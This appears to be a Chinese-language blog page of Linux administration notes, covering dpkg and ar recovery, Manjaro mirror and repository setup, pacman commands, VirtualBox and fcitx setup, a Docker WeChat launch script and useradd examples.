<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">#### dpkg、APT 和 <span class="keyword">ar</span>：</span><br><span class="line">dpkg是处理.<span class="keyword">deb</span>文件（二进制程序包）的程序，尤其是提取，分析和解压缩文件的程序。</span><br><span class="line"></span><br><span class="line">APT（“Advanced Packaging Tool高级包装工具”的缩写）是一组程序，可以对系统执行更高级别的修改：安装或删除程序包（同时保持依赖关系），更新和升级系统，列出可用程序。包装等。</span><br><span class="line"></span><br><span class="line"><span class="keyword">ar</span>程序，它允许处理相同名称的文件：显示该归档文件中包含的文件列表，将文件从归档文件中提取到当前工作目录中，从归档文件中删除文件，等等。其手册页（<span class="keyword">ar</span>（<span class="number">1</span>））记录了其所有其他功能。这是一个非常基本的工具，Unix管理员只会在极少数情况下使用，但管理员通常会使用，它是一个经过改进的存档和文件管理程序。这就是为什么在错误删除的情况下很容易恢复的原因。您只需要下载Debian软件包并从系统根目录（）中的档案中提取内容即可： <span class="keyword">ar</span> t archivear <span class="keyword">x</span> archivear d archive fileartardpkgdata.tar.xz/</span><br><span class="line"></span><br><span class="line"># <span class="keyword">ar</span> <span class="keyword">x</span> dpkg_1.<span class="number">19.7</span>_amd64.<span class="keyword">deb</span></span><br><span class="line"># tar -C / -<span class="keyword">p</span> -xJf data.tar.xz</span><br><span class="line"></span><br><span class="line">#### 查看Man手册：</span><br><span class="line">初学者可能会在看到“<span class="keyword">ar</span>(<span class="number">1</span>)”这样的文字注记时感到疑惑。这通常是个简写，它表示指向 man 手册第一类中标题是 <span class="keyword">ar</span> 的页面。</span><br><span class="line">有时这种注记也用来避免歧义，比如要区分清楚是 <span class="built_in">printf</span> 命令，可以用 <span class="built_in">printf</span>(<span class="number">1</span>) 来指明，如果是 C 语言里的 <span class="built_in">printf</span> 函数，就可以用 <span class="built_in">printf</span>(<span class="number">3</span>) 来引用。</span><br></pre></td></tr></table></figure>
</li>
</ol>
<h2 id="Manjaro-Notes"><a href="#Manjaro-Notes" class="headerlink" title="Manjaro Notes"></a>Manjaro Notes</h2><h3 id="修改国内源"><a href="#修改国内源" class="headerlink" title="修改国内源"></a>修改国内源</h3><ul>
<li><p>根据清华开源镜像站指南：</p>
<p>编辑 /etc/pacman.d/mirrorlist， 在文件的最顶端添加：</p>
<figure class="highlight awk"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">Server = https:<span class="regexp">//mi</span>rrors.tuna.tsinghua.edu.cn<span class="regexp">/archlinux/</span><span class="variable">$repo</span><span class="regexp">/os/</span><span class="variable">$arch</span></span><br></pre></td></tr></table></figure>
<p>更新软件包缓存(仅用于第一次更新)：</p>
<figure class="highlight ebnf"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute">sudo pacman -Syy</span></span><br></pre></td></tr></table></figure>
</li>
<li><p>根据GUI提示操作：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#1. 第一部分使用 pacman-mirrors 更新官方软件源</span></span><br><span class="line"><span class="comment">##1.1  按照地区自动更新为最快最稳定的软件源镜像地址</span></span><br><span class="line">  sudo pacman-mirrors --country China</span><br><span class="line"><span class="comment">##1.2. 恢复默认软件源操作</span></span><br><span class="line">  sudo pacman-mirrors --interactive --default</span><br><span class="line"><span class="comment">##1.3 软件源更新之后，我们一般会进行系统更新</span></span><br><span class="line">  sudo pacman -Syyu <span class="comment"># 软件源更新完成之后进行系统软件更新操作</span></span><br><span class="line"><span class="comment">##1.4 查看所有可用的地区信息</span></span><br><span class="line">  sudo pacman-mirrors -l</span><br></pre></td></tr></table></figure>
</li>
<li><p>Arch Linux CN仓库：Arch Linux 中文社区仓库 是由 Arch Linux 中文社区驱动的非官方用户仓库。包含中文用户常用软件、工具、字体/美化包等。</p>
<p>使用方法：在 <code>/etc/pacman.conf</code> 文件末尾添加以下两行：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[archlinuxcn]</span></span><br><span class="line"><span class="attr">Server</span> = https://mirrors.tuna.tsinghua.edu.cn/archlinuxcn/<span class="variable">$arch</span></span><br></pre></td></tr></table></figure>
<p>之后安装 <code>archlinuxcn-keyring</code> 包导入 GPG key。</p>
</li>
<li><p>Arch for edu源：Arch4edu 是面向高校用户推出的非官方软件仓库， 支持 Arch Linux 和 Arch Linux ARM， 主要包含高校用户常用的科研、教学及开发软件。</p>
<ul>
<li>导入 GPG key</li>
</ul>
<figure class="highlight lsl"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">$ pacman-<span class="type">key</span> --recv-keys <span class="number">7931</span>B6D628C8D3BA</span><br><span class="line">$ pacman-<span class="type">key</span> --finger <span class="number">7931</span>B6D628C8D3BA</span><br><span class="line">$ pacman-<span class="type">key</span> --lsign-<span class="type">key</span> <span class="number">7931</span>B6D628C8D3BA</span><br></pre></td></tr></table></figure>
<ul>
<li>在 <code>/etc/pacman.conf</code> 文件末尾添加以下内容：</li>
</ul>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[arch4edu]</span></span><br><span class="line"><span class="attr">Server</span> = https://mirrors.tuna.tsinghua.edu.cn/arch4edu/<span class="variable">$arch</span></span><br></pre></td></tr></table></figure>
<ul>
<li>[<strong>不推荐</strong>] 不导入 GPG key，并直接在 <code>/etc/pacman.conf</code> 文件末尾添加以下内容：</li>
</ul>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[arch4edu]</span></span><br><span class="line"><span class="attr">SigLevel</span> = Never</span><br><span class="line"><span class="attr">Server</span> = https://mirrors.tuna.tsinghua.edu.cn/arch4edu/<span class="variable">$arch</span></span><br></pre></td></tr></table></figure>
</li>
</ul>
<h3 id="修改AUR源"><a href="#修改AUR源" class="headerlink" title="修改AUR源"></a>修改AUR源</h3><blockquote>
<p>yay用户</p>
</blockquote>
<p>执行以下命令修改 aururl :</p>
<figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">yay <span class="params">--aururl</span> <span class="string">"https://aur.tuna.tsinghua.edu.cn"</span> <span class="params">--save</span></span><br></pre></td></tr></table></figure>
<p>修改的配置文件位于 <code>~/.config/yay/config.json</code> ，还可通过以下命令查看修改过的配置：</p>
<figure class="highlight ebnf"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attribute">yay -P -g</span></span><br></pre></td></tr></table></figure>
<h3 id="Pacman指南"><a href="#Pacman指南" class="headerlink" title="Pacman指南"></a>Pacman指南</h3><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#2. 第二部分使用 pacman 管理软件</span></span><br><span class="line"><span class="comment">##2.1 同步并且更新你的系统</span></span><br><span class="line">  sudo pacman -Syyu</span><br><span class="line"><span class="comment">##2.2 在软件仓库中搜索软件</span></span><br><span class="line">  sudo pacman -Ss [software package name]</span><br><span class="line"><span class="comment">##2.3 查看已安装软件</span></span><br><span class="line">  sudo pacman -Qs [software package name]</span><br><span class="line">  sudo pacman -Qi [software package name] <span class="comment"># 附带详细信息</span></span><br><span class="line">  sudo pacman -Qii [software package name] <span class="comment"># 附带更加详细的包信息</span></span><br><span class="line">  sudo pacman -Ql <span class="comment"># 列出所有安装的软件包</span></span><br><span class="line"><span class="comment">##2.4 查看软件的详细依赖</span></span><br><span class="line">  sudo pactree [software package name]</span><br><span class="line"><span class="comment">##2.5 查看系统中那些没有被使用软件依赖包（orphans）</span></span><br><span class="line">  sudo pacman -Qdt</span><br><span class="line"><span class="comment">##2.6 自动移除那些系统中没有被使用的依赖包【类似于Debian下的 sudo apt autoremove --purge】</span></span><br><span class="line">  sudo pacman -Rs $(pacman -Qdtq)</span><br><span class="line"><span class="comment">##2.7 下载并安装软件包</span></span><br><span class="line">  sudo pacman -Syu [software package name] <span class="comment"># 从软件仓库安装</span></span><br><span class="line">  yay -S [software package name]  <span class="comment"># Packages from the AUR</span></span><br><span class="line">  sudo pacman -U [/package_path/][software package name.pkg.tar.xz] <span class="comment"># 从本地安装</span></span><br><span class="line">  pacman -U http://www.examplepackage/repo/examplepkg.tar.xz <span class="comment"># 从网络安装【非官方仓库】</span></span><br><span class="line"><span class="comment">##2.8 卸载软件</span></span><br><span class="line">  sudo pacman -R [software package name] </span><br><span class="line">  sudo pacman -Rs [software package name] <span class="comment"># 同时删除依赖</span></span><br><span class="line">  sudo pacman -Rns [software package name] <span class="comment"># 删除软件及其依赖，还有pacman生成的配置文件，即更彻底的删除</span></span><br><span class="line"><span class="comment">##2.9 清空缓存【默认情况下安装软件会先来缓存中查看是否已经下载过，没有再去下载，软件安装后通常下载缓存还在】</span></span><br><span class="line">  sudo pacman -Sc</span><br><span class="line">  sudo pacman -Scc <span class="comment"># 更彻底的清理</span></span><br><span class="line">  关于 pacman 常用就这些了，更多请使用 man pacman OR pacman -h 去查看</span><br></pre></td></tr></table></figure>
<h3 id="安装VirtualBox"><a href="#安装VirtualBox" class="headerlink" title="安装VirtualBox"></a>安装VirtualBox</h3><p>首先查看自己内核版本</p>
<figure class="highlight ruby"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">$ sudo uname -r </span><br><span class="line">Linux bl <span class="number">5.8</span>.<span class="number">16</span>-<span class="number">2</span>-MANJARO <span class="comment">#1 SMP PREEMPT Mon Oct 19 11:33:03 UTC 2020 x86_64 GNU/Linux</span></span><br></pre></td></tr></table></figure>
<p>装符合自己版本的</p>
<figure class="highlight ruby"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"> $  sudo pacman -S virtualbox</span><br><span class="line"><span class="comment">## 这里需要选择与当前内核相同的内核模块比如笔者正在使用的内核版本为5.8.16-2-MANJARO，则需要安装linux58-virtualbox-host-modules</span></span><br><span class="line"> $  pacman -Sy linux58-virtualbox-host-modules</span><br><span class="line"> $  sudo gpasswd -a $USER vboxusers <span class="comment">#添加当前用户到vboxusers</span></span><br><span class="line"> $  sudo modprobe vboxdrv</span><br></pre></td></tr></table></figure>
<h3 id="fcitx输入法"><a href="#fcitx输入法" class="headerlink" title="fcitx输入法"></a>fcitx输入法</h3><p>在<code>~/.pam_environment</code>中添加[亲测好用,推荐]</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="builtin-name">export</span> <span class="attribute">GTK_IM_MODULE</span>=fcitx</span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">QT_IM_MODULE</span>=fcitx</span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">XMODIFIERS</span>=<span class="string">"@im=fcitx"</span></span><br></pre></td></tr></table></figure>
<h3 id="Do-WeChat——Docker微信"><a href="#Do-WeChat——Docker微信" class="headerlink" title="Do-WeChat——Docker微信"></a>Do-WeChat——Docker微信</h3><blockquote>
<p>Docker微信</p>
</blockquote>
<p>项目地址：<a href="https://github.com/huan/docker-wechat" target="_blank" rel="noopener">https://github.com/huan/docker-wechat</a></p>
<p>Docker Hub：<a href="https://hub.docker.com/r/zixia/wechat/tags?page=1&amp;ordering=last_updated" target="_blank" rel="noopener">https://hub.docker.com/r/zixia/wechat/tags?page=1&amp;ordering=last_updated</a></p>
<p>一键启动脚本——我加了个root检测罢了。</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br><span class="line">156</span><br><span class="line">157</span><br><span class="line">158</span><br><span class="line">159</span><br><span class="line">160</span><br><span class="line">161</span><br><span class="line">162</span><br><span class="line">163</span><br><span class="line">164</span><br><span class="line">165</span><br><span class="line">166</span><br><span class="line">167</span><br><span class="line">168</span><br><span class="line">169</span><br><span class="line">170</span><br><span class="line">171</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/usr/bin/env bash</span></span><br><span class="line"><span class="comment"># 请在这里指定镜像版本！</span></span><br><span class="line">DEFAULT_WECHAT_VERSION=2.9.0.114</span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="comment"># dochat.sh - Docker WeChat for Linux</span></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="comment">#   Author: Huan (李卓桓) &lt;zixia@zixia.net&gt;</span></span><br><span class="line"><span class="comment">#   Copyright (c) 2020-now</span></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="comment">#   License: Apache-2.0</span></span><br><span class="line"><span class="comment">#   GitHub: https://github.com/huan/docker-wechat</span></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 颜色colors</span></span><br><span class="line">CDEF=<span class="string">" \033[0m"</span>                                     <span class="comment"># default color</span></span><br><span class="line">CCIN=<span class="string">" \033[0;36m"</span>                                  <span class="comment"># info color</span></span><br><span class="line">CGSC=<span class="string">" \033[0;32m"</span>                                  <span class="comment"># success color</span></span><br><span class="line">CRER=<span class="string">" \033[0;31m"</span>                                  <span class="comment"># error color</span></span><br><span class="line">CWAR=<span class="string">" \033[0;33m"</span>                                  <span class="comment"># warning color</span></span><br><span class="line">b_CDEF=<span class="string">" \033[1;37m"</span>                                <span class="comment"># bold default color</span></span><br><span class="line">b_CCIN=<span class="string">" \033[1;36m"</span>                                <span class="comment"># bold info color</span></span><br><span class="line">b_CGSC=<span class="string">" \033[1;32m"</span>                                <span class="comment"># bold success color</span></span><br><span class="line">b_CRER=<span class="string">" \033[1;31m"</span>                                <span class="comment"># bold error color</span></span><br><span class="line">b_CWAR=<span class="string">" \033[1;33m"</span>  </span><br><span class="line"></span><br><span class="line"><span class="comment"># echo like ...  with  flag type  and display message  colors</span></span><br><span class="line"><span class="comment"># -s 绿</span></span><br><span class="line"><span class="comment"># -e 红</span></span><br><span class="line"><span class="comment"># -w 黄</span></span><br><span class="line"><span class="comment"># -i 蓝</span></span><br><span class="line"><span class="function"><span class="title">prompt</span></span> () &#123;</span><br><span class="line">  <span class="keyword">case</span> <span class="variable">$&#123;1&#125;</span> <span class="keyword">in</span></span><br><span class="line">    <span class="string">"-s"</span>|<span class="string">"--success"</span>)</span><br><span class="line">      <span class="built_in">echo</span> -e <span class="string">"<span class="variable">$&#123;b_CGSC&#125;</span><span class="variable">$&#123;@/-s/&#125;</span><span class="variable">$&#123;CDEF&#125;</span>"</span>;;          <span class="comment"># print success message</span></span><br><span class="line">    <span class="string">"-e"</span>|<span class="string">"--error"</span>)</span><br><span class="line">      <span class="built_in">echo</span> -e <span class="string">"<span class="variable">$&#123;b_CRER&#125;</span><span class="variable">$&#123;@/-e/&#125;</span><span class="variable">$&#123;CDEF&#125;</span>"</span>;;          <span class="comment"># print error message</span></span><br><span class="line">    <span class="string">"-w"</span>|<span class="string">"--warning"</span>)</span><br><span class="line">      <span class="built_in">echo</span> -e <span class="string">"<span class="variable">$&#123;b_CWAR&#125;</span><span class="variable">$&#123;@/-w/&#125;</span><span class="variable">$&#123;CDEF&#125;</span>"</span>;;          <span class="comment"># print warning message</span></span><br><span class="line">    <span class="string">"-i"</span>|<span class="string">"--info"</span>)</span><br><span class="line">      <span class="built_in">echo</span> -e <span class="string">"<span class="variable">$&#123;b_CCIN&#125;</span><span class="variable">$&#123;@/-i/&#125;</span><span class="variable">$&#123;CDEF&#125;</span>"</span>;;          <span class="comment"># print info message</span></span><br><span class="line">    *)</span><br><span class="line">    <span class="built_in">echo</span> -e <span class="string">"<span class="variable">$@</span>"</span></span><br><span class="line">    ;;</span><br><span class="line">  <span class="keyword">esac</span></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line">ROOT_UID=0</span><br><span class="line"></span><br><span class="line">prompt -w <span class="string">"\n检查权限  ——    Checking ...\n"</span></span><br><span class="line"><span class="keyword">if</span> [ <span class="string">"<span class="variable">$UID</span>"</span> -eq <span class="string">"<span class="variable">$ROOT_UID</span>"</span> ]; <span class="keyword">then</span></span><br><span class="line">  <span class="comment"># Error message</span></span><br><span class="line">  prompt -e <span class="string">"\n [ Error ] -&gt; 请不要使用管理员权限(not sudo)运行 Please run as not root  \n"</span></span><br><span class="line">  <span class="built_in">exit</span> 1</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">  prompt -s <span class="string">"\n——————————  Unit Ready  ——————————\n"</span></span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line"></span><br><span class="line"><span class="built_in">set</span> -eo pipefail</span><br><span class="line"></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="comment"># The defeault docker image version which confirmed that most stable.</span></span><br><span class="line"><span class="comment">#   See: https://github.com/huan/docker-wechat/issues/29#issuecomment-619491488</span></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="comment"># DEFAULT_WECHAT_VERSION=2.7.1.85</span></span><br><span class="line"></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="comment"># Get the image version tag from the env</span></span><br><span class="line"><span class="comment">#</span></span><br><span class="line">DOCHAT_IMAGE_VERSION=<span class="string">"zixia/wechat:<span class="variable">$&#123;DOCHAT_WECHAT_VERSION:-$&#123;DEFAULT_WECHAT_VERSION&#125;</span>&#125;"</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">function</span> <span class="function"><span class="title">hello</span></span> () &#123;</span><br><span class="line">  cat &lt;&lt;<span class="string">'EOF'</span></span><br><span class="line"></span><br><span class="line">       ____         ____ _           _</span><br><span class="line">      |  _ \  ___  / ___| |__   __ _| |_</span><br><span class="line">      | | | |/ _ \| |   | <span class="string">'_ \ / _` | __|</span></span><br><span class="line"><span class="string">      | |_| | (_) | |___| | | | (_| | |_</span></span><br><span class="line"><span class="string">      |____/ \___/ \____|_| |_|\__,_|\__|</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">      https://github.com/huan/docker-wechat</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">                +--------------+</span></span><br><span class="line"><span class="string">               /|             /|</span></span><br><span class="line"><span class="string">              / |            / |</span></span><br><span class="line"><span class="string">             *--+-----------*  |</span></span><br><span class="line"><span class="string">             |  |           |  |</span></span><br><span class="line"><span class="string">             |  |   盒装    |  |</span></span><br><span class="line"><span class="string">             |  |   微信    |  |</span></span><br><span class="line"><span class="string">             |  +-----------+--+</span></span><br><span class="line"><span class="string">             | /            | /</span></span><br><span class="line"><span class="string">             |/             |/</span></span><br><span class="line"><span class="string">             *--------------*</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">      DoChat /dɑɑˈtʃæt/ (Docker-weChat) is:</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">      📦 a Docker image</span></span><br><span class="line"><span class="string">      🤐 for running PC Windows WeChat</span></span><br><span class="line"><span class="string">      💻 on your Linux desktop</span></span><br><span class="line"><span class="string">      💖 by one-line of command</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">EOF</span></span><br><span class="line"><span class="string">&#125;</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">function pullUpdate () &#123;</span></span><br><span class="line"><span class="string">  if [ -n "$DOCHAT_SKIP_PULL" ]; then</span></span><br><span class="line"><span class="string">    return</span></span><br><span class="line"><span class="string">  fi</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">  echo '</span>🚀 Pulling the docker image...<span class="string">'</span></span><br><span class="line"><span class="string">  echo</span></span><br><span class="line"><span class="string">  docker pull "$DOCHAT_IMAGE_VERSION"</span></span><br><span class="line"><span class="string">  echo</span></span><br><span class="line"><span class="string">  echo '</span>🚀 Pulling the docker image <span class="keyword">done</span>.<span class="string">'</span></span><br><span class="line"><span class="string">&#125;</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">function main () &#123;</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">  hello</span></span><br><span class="line"><span class="string">  pullUpdate</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">  DEVICE_ARG=()</span></span><br><span class="line"><span class="string">  for DEVICE in /dev/video* /dev/snd; do</span></span><br><span class="line"><span class="string">    DEVICE_ARG+=('</span>--device<span class="string">' "$DEVICE")</span></span><br><span class="line"><span class="string">  done</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">  echo '</span>🚀 Starting DoChat /dɑɑˈtʃæt/ ...<span class="string">'</span></span><br><span class="line"><span class="string">  echo</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">  rm -f "$HOME/DoChat/Applcation Data/Tencent/WeChat/All Users/config/configEx.ini"</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">  #</span></span><br><span class="line"><span class="string">  # --privileged: enable sound (/dev/snd/)</span></span><br><span class="line"><span class="string">  # --ipc=host:   enable MIT_SHM (XWindows)</span></span><br><span class="line"><span class="string">  #</span></span><br><span class="line"><span class="string">  docker run \</span></span><br><span class="line"><span class="string">    "$&#123;DEVICE_ARG[@]&#125;" \</span></span><br><span class="line"><span class="string">    --name DoChat \</span></span><br><span class="line"><span class="string">    --rm \</span></span><br><span class="line"><span class="string">    -i \</span></span><br><span class="line"><span class="string">    \</span></span><br><span class="line"><span class="string">    -v "$HOME/DoChat/WeChat Files/":'</span>/home/user/WeChat Files/<span class="string">' \</span></span><br><span class="line"><span class="string">    -v "$HOME/DoChat/Applcation Data":'</span>/home/user/.wine/drive_c/users/user/Application Data/<span class="string">' \</span></span><br><span class="line"><span class="string">    -v /tmp/.X11-unix:/tmp/.X11-unix \</span></span><br><span class="line"><span class="string">    \</span></span><br><span class="line"><span class="string">    -e DISPLAY \</span></span><br><span class="line"><span class="string">    -e DOCHAT_DEBUG \</span></span><br><span class="line"><span class="string">    -e DOCHAT_DPI \</span></span><br><span class="line"><span class="string">    \</span></span><br><span class="line"><span class="string">    -e XMODIFIERS \</span></span><br><span class="line"><span class="string">    -e GTK_IM_MODULE \</span></span><br><span class="line"><span class="string">    -e QT_IM_MODULE \</span></span><br><span class="line"><span class="string">    \</span></span><br><span class="line"><span class="string">    -e AUDIO_GID="$(getent group audio | cut -d: -f3)" \</span></span><br><span class="line"><span class="string">    -e VIDEO_GID="$(getent group video | cut -d: -f3)" \</span></span><br><span class="line"><span class="string">    -e GID="$(id -g)" \</span></span><br><span class="line"><span class="string">    -e UID="$(id -u)" \</span></span><br><span class="line"><span class="string">    \</span></span><br><span class="line"><span class="string">    --ipc=host \</span></span><br><span class="line"><span class="string">    --privileged \</span></span><br><span class="line"><span class="string">    \</span></span><br><span class="line"><span class="string">    "$DOCHAT_IMAGE_VERSION"</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">    echo</span></span><br><span class="line"><span class="string">    echo "📦 DoChat Exited with code [$?]"</span></span><br><span class="line"><span class="string">    echo</span></span><br><span class="line"><span class="string">    echo '</span>🐞 Bug Report: https://github.com/huan/docker-wechat/issues<span class="string">'</span></span><br><span class="line"><span class="string">    echo</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">&#125;</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">main</span></span><br></pre></td></tr></table></figure>
<h2 id="Debian服务器-从命令行搭建X窗口"><a href="#Debian服务器-从命令行搭建X窗口" class="headerlink" title="Debian服务器 - 从命令行搭建X窗口"></a>Debian服务器 - 从命令行搭建X窗口</h2><p>安装好Debian后，如果只有root用户，请添加新用户。</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># 新建用户</span></span><br><span class="line">$ useradd -s /bin/zsh -g group –G adm,root sam</span><br><span class="line"><span class="comment">## 此命令新建了一个用户sam，该用户的登录Shell是 `/bin/zsh`，它属于group用户组，同时又属于adm和root用户组，其中group用户组是其主组。</span></span><br><span class="line">$ useradd –d /home/sam -m sam</span><br><span class="line"><span class="comment">## 此命令创建了一个用户sam，其中-d和-m选项用来为登录名sam产生一个主目录  /home/sam（/home为默认的用户主目录所在的父目录）。</span></span><br><span class="line">$ useradd -m -G wheel,users -s /bin/zsh -p passwd username</span><br><span class="line"></span><br><span class="line"><span class="comment"># 如果你想更改用户Shell：</span></span><br><span class="line">$ chsh -s /bin/zsh</span><br><span class="line"><span class="comment"># 或者，这样也可以</span></span><br><span class="line">$ usermod -s /bin/zsh 【用户名】</span><br></pre></td></tr></table></figure>
